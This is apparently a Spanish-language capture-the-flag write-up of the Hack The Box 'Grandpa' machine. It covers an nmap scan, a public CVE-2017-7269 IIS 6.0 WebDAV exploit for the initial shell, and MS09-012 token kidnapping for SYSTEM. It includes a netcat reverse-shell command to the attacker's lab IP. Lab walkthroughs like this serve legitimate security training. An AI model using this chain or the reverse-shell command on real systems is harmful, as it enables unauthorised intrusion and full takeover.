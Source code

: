 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Granpa es una maquina Windows de dificultad facil.
 La maquina tiene una vulneravilidad en la version de IIS que esta corriendo, la cual nos da un acceso rapido y facil al usuario `nt authority\network service`. Posteriormente, logramos ser root gracias a churrasco que realiza un `token Kidnapping`. "
date: 2021-11-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-Grandpa/granpa-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - easy
  - Microsoft IIS 6.0
---
```


![](/assets/images/htb-writeup-Grandpa/granpa-logo.png)

Machine IP = 10.10.10.14

Lo primero que realizo es verificar si la maquina esta activa mandándole un “ping” y esperando que me responda.

![](/assets/images/htb-writeup-Grandpa/pic1.png)

Después lo que hago es cuadrar mi entorno de trabajo por medio de un script en Python que cree el cual me dirá exactamente frente a que maquina estoy actuando y a la vez me va a crear unos directorios que normalmente uso.

![](/assets/images/htb-writeup-Grandpa/pic2.png)

## Port Scan

A continuación, mando el nmap:
  * nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14

```
# Nmap 7.92 scan initiated Thu Nov 18 21:27:35 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received echo-reply ttl 127 (0.077s latency).
Scanned at 2021-11-18 21:27:41 EST for 295s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Fri, 19 Nov 2021 02:38:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 21:32:36 2021 -- 1 IP address (1 host up) scanned in 301.27 seconds

```
## Web Site

Nos metemos a la pagina que esta en el puerto 80 (http), pero nos encontramos con una página que realmente no nos muestra mucho:

![](/assets/images/htb-writeup-Grandpa/pic3.png)

Con ayuda del whatweb y con searchsploit encontramos que existen posibles exploits para el IIS de Microsoft versión 6.0.

![](/assets/images/htb-writeup-Grandpa/pic4.png)

## Shell

Encontramos el exploit en https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269  el cual lo descargamos y corremos y tenemos acceso a la maquina como el usuario “nt authority\network service”


![](/assets/images/htb-writeup-Grandpa/pic5.png)

Para realizar la escalación de privilegios en máquinas Windows normalmente lo primero que mando es un systeminfo para poder recolectar un poco más de información sobre el sistema y de esta manera lograr ver si tiene alguna vulnerabilidad.

![](/assets/images/htb-writeup-Grandpa/pic6.png)

## Privilege escalation

Lo que mas me llama la atención es que la maquina esta corriendo bajo un OS Windows server 2003. Con ayuda de searchsploit busco sobre Windows server 2003 y nos encontramos con un script en C el cual nos toca compilar y posteriormente nos dará acceso como root.

![](/assets/images/htb-writeup-Grandpa/pic7.png)

Antes de iniciar con la escalada de privilegios, tenemos que mandar dos archivos a la maquina víctima, el primer archivo es MS09-012.exe (el archivo C compilado) y el segundo es nc.exe

![](/assets/images/htb-writeup-Grandpa/pic8.png)

Desde nuestra maquina escuchamos en el puerto 443 y corremos el .exe desde la maquina victima por medio del siguiente comando :
  * MS09-012.exe -d “C:\tmp\nc.exe -e cmd 10.10.14.14 443”

Finalmente tenemos acceso a la maquina como Root ( nt authority\system).

![](/assets/images/htb-writeup-Grandpa/pic9.png)
